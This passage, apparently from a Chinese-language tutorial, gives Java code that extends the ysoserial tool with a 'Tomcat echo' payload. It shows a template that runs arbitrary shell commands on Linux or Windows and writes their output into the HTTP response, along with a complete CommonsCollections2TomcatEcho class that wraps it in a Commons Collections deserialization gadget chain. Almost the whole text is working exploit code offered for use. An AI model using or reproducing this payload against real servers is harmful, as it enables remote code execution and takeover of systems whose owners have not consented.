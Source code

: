 ```java
        "        if (osTyp != null && osTyp.toLowerCase().contains(\"win\")) {\n" +
        "            isLinux = false;\n" +
        "        }\n" +
        "        String[] cmds = isLinux ? new String[]{\"sh\", \"-c\", cmd} : new String[]{\"cmd.exe\", \"/c\",cmd};\n" +
        "        java.io.InputStream in = Runtime.getRuntime().exec(cmds).getInputStream();\n" +
        "        java.util.Scanner s = new java.util.Scanner(in).useDelimiter(\"\\\\a\");\n" +
        "        String output = s.hasNext() ? s.next() : \"\";\n" +
        "        w.write(output);\n" +
        "        w.flush();\n" +
        "    }\n" +
        "} catch (Exception e) {\n" +
        "}";
    return createTemplatesImpl(command, template);
}
```

然后在payloads处添加对应的类（直接继承原有的CommonsCollectionsx即可）

```java
// https://github.dev/kingkaki/ysoserial/blob/master/src/main/java/ysoserial/payloads/CommonsCollections2TomcatEcho.java
package ysoserial.payloads;

import org.apache.commons.collections4.comparators.TransformingComparator;
import org.apache.commons.collections4.functors.InvokerTransformer;
import ysoserial.payloads.util.Gadgets;
import ysoserial.payloads.util.PayloadRunner;
import ysoserial.payloads.util.Reflections;

import java.util.PriorityQueue;
import java.util.Queue;

public class CommonsCollections2TomcatEcho extends CommonsCollections2 {
    @Override
    public Queue<Object> getObject(final String command) throws Exception {
        final Object templates = Gadgets.createTemplatesImplTomcatEcho(command);
        // mock method name until armed
        final InvokerTransformer transformer = new InvokerTransformer("toString", new Class[0], new Object[0]);

        // create queue with numbers and basic comparator
        final PriorityQueue<Object> queue = new PriorityQueue<Object>(2, new TransformingComparator(transformer));
        // stub data for replacement later
        queue.add(1);
        queue.add(1);

        // switch method called by comparator
        Reflections.setFieldValue(transformer, "iMethodName", "newTransformer");

        // switch contents of queue
        final Object[] queueArray = (Object[]) Reflections.getFieldValue(queue, "queue");
        queueArray[0] = templates;
        queueArray[1] = 1;

        return queue;
    }

    public static void main(final String[] args) throws Exception {
        PayloadRunner.run(CommonsCollections2TomcatEcho.class, args);
    }
}
```
